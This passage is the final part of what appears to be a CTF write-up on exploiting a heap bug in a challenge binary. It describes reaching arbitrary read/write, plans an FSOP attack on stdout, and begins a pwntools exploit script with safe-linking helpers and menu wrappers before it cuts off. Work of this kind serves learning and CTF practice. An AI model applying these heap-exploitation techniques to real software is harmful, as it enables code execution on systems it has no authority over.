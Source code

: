 
## Final Blow

Now we have everything we need — all the leaks and one of the most powerful exploitation primitives in hand: **arbitrary read and write**.

**How arb read/write ?** -> Well, now we can allocate a chunk on the chunks pointer table itself ( *as it checks the limit condition and we know elf address too now*) , then we can write any arbitrary pointer in the table and can read/write at that location (*remember to modify the size table too for that index*).

*At this point, getting shell access is just a matter of time.*

<img src="/d1ff/images_limit/blow.gif" width="300" style="display: block; margin: auto;"  />


There are tons of solid techniques you can pull off from here, especially with **arb read/write** on **last libc versions**. One particularly **awesome list** of such methods is this [document by nobodyisnobody](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) — definitely worth a read.

As for me, I went with a classic: **FSOP (File Stream Oriented Programming)** via a corrupted `stdout` structure and a call to `puts()`. Clean and effective. 🔪

### Exploitation Script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./limit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
global r
# r = process()
r = remote('smiley.cat', '39321')
def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index,size):
    r.sendlineafter(b'> ',b'1')
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendlineafter(b'Size:',str(size).encode())

def free(index):
    r.sendlineafter(b'> ',b'2')   
    r.sendlineafter(b'Index:',str(index).encode())

def view(index):
    r.sendlineafter(b'> ',b'3')   
    r.sendlineafter(b'Index:',str(index).encode())

def write_into(index,content):
    r.sendlineafter(b'> ',b'4')   
    r.sendlineafter(b'Index:',str(index).encode())
```
